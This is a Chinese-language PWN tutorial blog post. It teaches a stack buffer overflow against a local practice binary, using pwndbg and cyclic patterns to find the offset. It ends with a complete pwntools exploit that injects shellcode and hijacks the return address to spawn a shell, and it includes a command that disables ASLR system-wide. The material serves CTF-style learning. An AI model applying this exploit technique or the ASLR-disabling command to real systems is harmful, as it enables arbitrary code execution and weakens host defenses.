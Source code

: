 ```yaml
---
title: 'shellcode'
date: '2023-08-08'
lastmod: '2023-08-20'
tags: ['PWN', 'Stack']
draft: false
summary: '运行你自己的指令'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

在真正的漏洞利用中，你不太可能拥有 `win()` 函数。shellcode 是一种允许 **运行你自己的指令** 的方法，使你能够在系统上运行任意命令。

**shellcode** 本质上是 **一系列汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖返回地址（返回指针）以劫持代码，并执行我们自己的指令。

<Warning>
  我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。pwntools 很安全，并且几乎拥有你需要的所有 shellcode。
</Warning>

shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

LINK

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化内存的某些方面，可以看我的这篇博客：[NOPs](https://www.cubeyond.net/blog/nops) 。这种随机化可能会使我们的 shellcode 变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

<Note>
  类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很浪费时间的事情。
</Note>

<Warning>
  再次强调，如果你不知道指令的作用，则永远不要运行该指令。
</Warning>

## 0x02 确定缓冲区位置

使用 `pwndbg` 调试 `vuln`，并找出缓冲区在内存中的起始位置；这就是我们想要将返回地址指向的位置。

```
$ pwndbg vuln
$ disass unsafe
[...]
0x0804918a <+24>:	lea    eax,[ebx-0x1ff8]
[...]
0x0804919c <+42>:	lea    eax,[ebp-0x134]
[...]
0x080491ac <+58>:	mov    ebx,DWORD PTR [ebp-0x4]
[...]
```

可以根据大小判断哪个是 **局部变量**。根据缓冲区大小是 300，可以判断出 `ebp-0x134` 很可能是缓冲区。让我们在 `gets()` 之后设置一个断点并找到确切的返回地址。

```
$ b *0x080491a8
$ r
Overflow me
<<IM HERE>>  <== This was my input
$ x/20s $esp
[...]
0xffffd664:	"<<IM HERE>>"
[...]
```

它似乎位于 `0xffffd664` ；如果我们多次运行二进制文件，它应该保持在原来的位置（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding。我们将使用 De Bruijn 序列，如上一篇 [文章](https://www.cubeyond.net/blog/de-bruijn-sequences) 中所述。

```
$ pwndbg vuln
$ cyclic 500
<COPY THIS>
$ r
Overflow me
<<PASTE HERE>>

Program received signal SIGSEGV, Segmentation fault.
0x64616164 in ?? ()
[...]
$ cyclic -l 0x64616164
Finding cyclic pattern of 4 bytes: b'daad' (hex: 0x64616164)
Found at offset 312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 Exploit

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供 shellcode。

```python showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.binary = ELF('./vuln')

p = process()
```

<Note>
  我们可以只使用 `process()`，因为一旦设置了 `context.binary` 就默认假定使用该进程。
</Note>

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode。

```python showLineNumbers
payload = asm(shellcraft.sh())      # 构建 Shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664)          # 返回地址
```

现在让我们将其发送出去并使用 `p.interactive()`，它使我们能够与 shell 通信。

```python showLineNumbers
p.sendline(payload)

p.interactive()
```

<Warning>
  如果你遇到 `EOFError`，请打印出 shellcode 并尝试在内存中查找它，栈地址可能是错误的。

  你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的 hook 调试方法来解决这个问题。
</Warning>

```
$ python exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 39321
[*] Switching to interactive mode
Overflow me
$ whoami
cub3y0nd
```

## 0x05 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())
payload = payload.ljust(312, b'A')
payload += p32(0xffffd664)

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode
- 然后，我们通过覆盖栈上保存的返回地址以指向我们的 shellcode
来劫持代码执行
- 一旦返回地址压入 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell

